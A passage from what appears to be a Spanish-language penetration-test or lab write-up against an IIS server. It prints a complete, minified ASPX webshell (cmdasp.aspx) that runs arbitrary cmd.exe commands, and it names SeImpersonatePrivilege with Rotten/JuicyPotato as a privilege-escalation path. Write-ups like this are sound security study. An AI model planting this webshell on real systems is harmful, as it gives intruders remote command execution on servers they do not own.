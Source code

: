 ![Visualización en IIS](images/exploit_6.png)

Una vez validada la escritura, se abre la puerta a la creación de una reverse shell, el inconveniente es que debido al espacio limitado en las variables respecto a los caracteres no fue posible llevarlo a cabo, por lo que se optó por una webshell en su lugar.

Utilizando `/usr/share/webshells/aspx/cmdasp.aspx` eliminando estilos, comentarios y saltos de línea para reducir los caracteres se obtuvo ejecución en la máquina.

Código de página empleado:

```c#
<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><body ><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>
```

![Webshell en aspx](images/exploit_7.png)

# Post Explotación

## Enumeración

Se identificó que entre los privilegios disponibles del usuario obtenido se encuentra habilitado `SeImpersonatePrivilege` lo que lleva a un camino de escalación de privilegios por medio de Rotten o JuicyPotato.
